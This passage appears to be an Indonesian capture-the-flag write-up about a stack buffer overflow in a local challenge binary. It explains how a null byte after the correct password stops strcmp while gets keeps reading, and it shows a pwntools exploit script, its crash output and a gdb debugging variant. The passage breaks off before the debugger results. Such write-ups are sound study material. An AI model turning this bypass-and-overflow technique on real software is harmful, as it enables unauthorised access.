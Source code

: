 karena buffer overflow seharusnya bisa melakukan Return to pointer, jadi harus mencari pointer mana yang bisa dipanggil ketika fungsi ret dipanggil, tetapi ketika melakukan overflow tidak terjadi segfault karena ketika password salah langsung dibawa ke `call   0x4010b0 <_exit@plt>` hal ini terjadi karena strcmp pada bahasa c akan berhenti memeriksa string ketika menemukan nullbyte atau `0x00` disatu sisi lagi `gets()` akan tetap membaca null byte atau 0x00 tetapi tidak akan membaca new line `0x00`, sederhanya menjadi seperti

```c
gets() stop jika bertemu dengan \n
strcmp() stop jika bertemu dengan \x00
```

jadi untuk membuat aplikasinya overflow harus mengikutsertakan `\x00` setelah password yang benar dan dilanjutkan dengan panjang buffer

```python
from pwn import *

p = process("./chal")
p.recvline()
p.sendline("th15_i5_n0t_4_fl4g\x00" + cyclic(0x100))
p.interactive()
```

jika exploit dijalan kan akan terjadi SIGSEGV

```bash
[+] Starting local process './chal': pid 2400
[*] Switching to interactive mode
Access Granted
[*] Got EOF while reading in interactive
[*] Process './chal' stopped with exit code -11 (SIGSEGV) (pid 2400)
```

artinya terjadi buffer overflow, untuk memastikanya bisa di debug melalui gdb

```python
from pwn import *

p = process("./chal")
p.recvline()

raw_input("attach gdb")

p.sendline("th15_i5_n0t_4_fl4g\x00" + cyclic(0x100))
p.interactive()
```

dan hasilnya adalah
